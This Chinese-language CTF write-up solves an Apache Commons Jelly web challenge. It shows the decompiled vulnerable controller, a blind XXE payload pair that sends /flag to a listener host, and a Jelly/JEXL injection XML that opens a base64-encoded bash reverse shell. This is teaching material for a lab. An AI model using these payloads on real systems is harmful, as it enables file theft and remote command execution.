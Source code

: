 # Easy Jelly题解
## 考点
- Jelly利用
- 非预期：无回显XXE
- 预期：jexl表达式注入

## 分析与解答
### 非预期XXE无回显注入
有个jar包，用IDEA打开，可以看到源`.class`文件内容，基本上也就等价于拿到了源码，其中`IndexController.class`内容如下：
```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.ctf.jelly;

import java.io.IOException;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import org.apache.commons.jelly.JellyContext;
import org.apache.commons.jelly.Script;
import org.apache.commons.jelly.XMLOutput;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.w3c.dom.Document;
import org.xml.sax.SAXException;

@Controller
public class IndexController {
    public IndexController() {
    }

    private static Boolean check(String uri) throws IOException, ParserConfigurationException, SAXException {
        DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
        dbf.setNamespaceAware(true);
        DocumentBuilder builder = dbf.newDocumentBuilder();
        Document doc = builder.parse(uri);
        int tag1 = doc.getElementsByTagNameNS("*", "expr").getLength();
        int tag2 = doc.getElementsByTagNameNS("*", "import").getLength();
        int tag3 = doc.getElementsByTagNameNS("*", "include").getLength();
        int tag4 = doc.getElementsByTagNameNS("*", "invoke").getLength();
        int tag5 = doc.getElementsByTagNameNS("*", "invokeStatic").getLength();
        int tag6 = doc.getElementsByTagNameNS("*", "new").getLength();
        int tag7 = doc.getElementsByTagNameNS("*", "parse").getLength();
        int tag8 = doc.getElementsByTagNameNS("*", "set").getLength();
        int tag9 = doc.getElementsByTagNameNS("*", "setProperties").getLength();
        int tag10 = doc.getElementsByTagNameNS("*", "out").getLength();
        int tag11 = doc.getElementsByTagNameNS("*", "useBean").getLength();
        return tag1 <= 0 && tag2 <= 0 && tag3 <= 0 && tag4 <= 0 && tag5 <= 0 && tag6 <= 0 && tag7 <= 0 && tag8 <= 0 && tag9 <= 0 && tag10 <= 0 && tag11 <= 0 ? true : false;
    }

    @RequestMapping({"/"})
    @ResponseBody
    public String Index() {
        return "Try to eat jelly";
    }

    @RequestMapping({"/jelly"})
    @ResponseBody
    public String Jelly(@RequestParam(required = true) String uri) {
        try {
            if (check(uri)) {
                JellyContext context = new JellyContext();
                Script script = context.compileScript(uri);
                script.run(context, XMLOutput.createXMLOutput(System.out));
                return "Tasty Jelly :)";
            }
        } catch (Exception var4) {
        }

        return "no way :(";
    }
}
```

漏洞点就在于`context.compileScript(uri).run(context, XMLOutput.createXMLOutput(System.out))`处，不过在此之前，通过`check()`过滤了一些jelly标签(这些分析均是在没有细致研究jelly下推测出来的，泪目.jpg)。

在本地搭一下复现环境，文件放到了`jelly_ctf`文件夹下，在该目录下依次执行如下命令：
```shell
sudo docker build -t httpd:jelly .
sudo docker run -d -p 8081:80 httpd:jelly
sudo docker ps
```

会有如下效果：\
![alt text](images/image1.png)

然后由于是无回显的，所以需要外带显示，因此需要一台vps，在vps上准备如下文件内容，由于我没有vps，因此就在同靶机上准备了，道理都是一样的：
```xml
# 1.xml
<!DOCTYPE test [
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % dtd SYSTEM "http://192.168.59.129:7777/evil.dtd">
%dtd;
]>
```
```xml
# evil.dtd
<!ENTITY % all "<!ENTITY &#x25; send  SYSTEM 'http://192.168.59.129:8888/%file;'> ">
%all;
%send;
```

在vps上利用python快速起一个http服务，放入`1.xml`和`evil.dtd`：\
![alt text](images/image3.png)

然后利用nc监听`8888`端口：\
![alt text](images/image2.png)

构造payload为`/jelly?uri=http://192.168.59.129:7777/1.xml`：\
![alt text](images/image4.png)

在vps上会有如下结果，可以看到靶机加载了xml后，读取本地的`flag`文件内容，并将其发送到远程：\
![alt text](images/image5.png)



### 预期：jexl表达式注入
搭建环境一样的

然后是`1.xml`的内容为如下：
```xml
<?xml version="1.0" encoding="utf-8"?>
<j:jelly xmlns:j="jelly:core">
<j:getStatic var="str"
className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/> <j:whitespace>${str
.class
.forName('javax.script.ScriptEngineManager').newInstance() .getEngineByName('js')
.eval('java.lang.Runtime.getRuntime().exec(&quot;  bash -c `{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU5LjEvOTk5OSAwPiYx|{base64,-d}|{bash,-i}` &quot;)')}</j:whitespace>
</j:jelly>
```

在vps上开启nc监听，监听`9999`端口：\
![alt text](images/image6.png)

然后payload为`/jelly?uri=http://192.168.59.129:7777/1.xml`：\
![alt text](images/image4.png)

反弹shell：\
![alt text](images/image7.png)


<mark>以上就是这道题的考点内容，具体的jelly底层，可能还得需要花时间去分析这个漏洞是怎么形成的，最近时间太赶了呜呜呜呜~</mark>


## 参考
[\[1\] Apache Common Jelly浅析](https://xz.aliyun.com/t/16667?time__1311=Gui%3DYKGKDKiKY5DsLBxCq7In1xjEl71naoD#toc-4)
[\[2\] Jelly官方文档](https://commons.apache.org/proper/commons-jelly/)